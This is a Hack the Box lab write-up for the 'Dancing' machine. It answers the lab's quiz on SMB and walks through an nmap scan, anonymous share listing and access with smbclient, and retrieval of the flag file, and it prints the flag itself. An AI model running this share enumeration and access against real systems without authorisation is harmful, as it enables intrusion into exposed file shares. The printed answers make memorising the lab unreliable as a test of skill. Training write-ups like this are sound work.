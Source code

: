 # Dancing
* Source: [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: [[SMB]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---

## Tasks
1. What does the 3-letter acronym SMB stand for? 
 - **Server Message Block**
2. What port does SMB use to operate at? 
- **445**
3. What network communication model does SMB use, architecturally speaking? 
- **client-server model**
4. What is the service name for port 445 that came up in our nmap scan? 
- **microsoft-ds**
5. What is the tool we use to connect to SMB shares from our Linux distribution? 
- **smbclient**
6. What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
- **-L**
7. What is the name of the share we are able to access in the end?
- **WorkShares**
8. What is the command we can use within the SMB shell to download the files we find? 
- **get**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.229.124`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sV 10.129.229.124
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-12 07:26 EDT
Nmap scan report for 10.129.229.124
Host is up (0.078s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 12.82 seconds
```

It's running SMB on port 445. We can use `smbclient` to list te shares. 

Command:

`smbclient -L 10.129.229.124`

`-L`: Get a list of shares available on a host.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient -L 10.129.229.124
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.229.124 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Awesome, there is a share for us to poke around in. To access it, we need to follow a special syntax.

Command:

 `smbclient \\\\10.129.229.124\\WorkShares`
 
`\\\\`: Equals to "\\\\" when interpreted, means root of directory.

`\\`: Equals to "\\" when interpreted, means new directory level.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ smbclient \\\\10.129.229.124\\WorkShares
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
```

`ls` to show the contents of the share.

```
smb: \> ls
  .                                   D        0  Tue Apr 12 11:37:11 2022
  ..                                  D        0  Tue Apr 12 11:37:11 2022
  Amy.J                               D        0  Mon Mar 29 05:08:24 2021
  James.P                             D        0  Thu Jun  3 04:38:03 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

`cd` to change directory into the James.P folder. 

```
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021

                5114111 blocks of size 4096. 1751219 blocks available
```

We can see the flag. We can use `get` to download the file via SMB.

Type `exit` to gracefully close the connection afterwards.

```
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> exit
```

Now that we have the file, we just need to `cat` it.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```

**Flag:** `5f61c10dffbc77a704d76016a22f1664`

---
**Tags:** [[HackTheBox]]